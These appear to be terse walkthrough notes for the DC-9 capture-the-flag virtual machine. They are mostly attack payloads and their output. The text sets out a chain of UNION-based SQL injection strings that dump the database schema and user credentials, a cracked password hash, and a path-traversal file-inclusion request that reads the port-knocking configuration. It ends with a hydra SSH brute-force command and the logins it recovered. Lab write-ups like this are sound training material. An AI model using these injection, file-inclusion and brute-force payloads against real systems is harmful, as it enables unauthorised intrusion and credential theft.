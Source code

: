 ### DC-9

#### SQLI

databases => search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,schema_name,0x7c))+from+information_schema.schemata+--+-

|information_schema|,|Staff|,|users|

usually generic data in information_schema, lets look in users

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,table_name,0x7c))+from+information_schema.tables+where+table_schema='users'+--+-
|UserDetails|

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,column_name,0x7c))+from+information_schema.columns+where+table_name='UserDetails'+--+-
|id|,|firstname|,|lastname|,|username|,|password|,|reg_date|


Usernames and Passwords

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(username))+from+users.UserDetails+--+-
```
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
```

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,password,0x7c))+from+users.UserDetails+--+-

```
3kfs86sfd
468sfdfsd2
4sfd87sfd1
RocksOff
TC&TheBoyz
B8m#48sd
Pebbles
BamBam01
UrAG0D!
Passw0rd
yN72#dsd
ILoveRachel
3248dsds7s
smellycats
YR3BVxxxw87
Ilovepeepee
Hawaii-Five-0
transorbital
```

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,table_name,0x7c))+from+information_schema.tables+where+table_schema='Staff'+--+-
|StaffDetails|,|Users|

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,column_name,0x7c))+from+information_schema.columns+where+table_name='Users'+--+-
|UserID|,|Username|,|Password|

search=search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,Password,0x7c))+from+Staff.Users+--+-
856f5de590ef37314e7c3bdf6f8a66dc => transorbital

#### LFI

/welcome.php?file=../../../../../etc/knockd.conf

```
[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```

#### SSH

hydra -L users -P pass ssh://172.22.222.4

```
[22][ssh] host: 172.22.222.4   login: chandlerb   password: UrAG0D!
[22][ssh] host: 172.22.222.4   login: joeyt   password: Passw0rd
[22][ssh] host: 172.22.222.4   login: janitor   password: Ilovepeepee
```

```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```